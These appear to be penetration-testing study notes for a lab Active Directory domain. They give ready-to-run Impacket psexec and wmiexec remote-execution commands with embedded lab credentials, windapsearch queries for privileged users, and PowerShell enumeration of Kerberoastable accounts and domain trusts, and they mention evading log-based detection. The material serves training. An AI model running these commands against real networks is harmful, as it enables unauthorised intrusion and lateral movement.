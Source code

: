 One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. 

```bash
## Using psexec.py
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

**wmiexec.py**

Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands).

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

**Windapsearch**

The --da (enumerate domain admins group members ) option and the -PU ( find privileged users) options. The -PU option is interesting because it will perform a recursive search for users with nested group membership.

```bash
## Domain admin enumeration
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da

## Privileged users enumeration
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```

## Credential Enumeration - Windows

### ActiveDirectory PowerShell Module

The ActiveDirectory PowerShell module is a group of PowerShell cmdlets for administering an Active Directory environment from the command line.

```powershell
## Discover modules
Get-Module

Import-Module ActiveDirectory

## Get domain info
Get-ADDomain

## Get domain user
## Filter for accounts with the ServicePrincipalName property populated. This will get us a listing of accounts that may be susceptible to a Kerberoasting attack
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

## Check for trust relationships
## Useful later on when looking to take advantage of child-to-parent trust relationships and attacking across forest trusts
Get-ADTrust -Filter *

## Domain group enumeration
Get-ADGroup -Filter * | select name
Get-ADGroup -Identity "Backup Operators"            # detailed information
Get-ADGroupMember -Identity "Backup Operators"      # group membership  
```
